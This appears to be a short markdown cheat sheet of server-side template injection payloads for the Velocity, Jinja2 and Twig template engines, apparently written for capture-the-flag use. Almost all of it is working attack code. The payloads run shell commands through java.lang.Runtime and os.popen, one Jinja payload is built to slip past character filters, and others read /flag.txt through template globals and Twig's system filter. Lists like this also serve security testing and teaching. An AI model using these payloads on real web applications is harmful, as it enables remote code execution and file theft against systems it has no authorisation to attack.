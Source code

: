 #### Velocity template Langauge payload:

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

#### Jinja payload <i>(Python)</i> : 

```py
#normal payload
 {{ ''.__class__.__base__.__subclasses__()[103].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}

#payload without '_' and without '\' ad without '.'
{%set c='%c%c'|format(95,95)%}{{dict|attr('mro')()|attr(c~'getitem'~c)(1)|attr(c~'subclasses'~c)()|attr(c~'getitem'~c)(221)|attr(c~'init'~c)|attr(c~'globals'~c)|attr(c~'getitem'~c)('sys')|attr('modules')|attr(c~'getitem'~c)('os')|attr('popen')('ls')|attr('read')()}}

#shortcuts
 {{ url_for.__globals__.os.popen("ls").read() }}
 {{ self.__init__.__globals__.__builtins__.open("/flag.txt").read() }}
 ```

### Twig

```py
{{['cat${IFS}/flag.txt']|filter('system')}}
```

![image](https://github.com/user-attachments/assets/d812c5f3-2f59-476a-a1e8-6a7ae978695a)

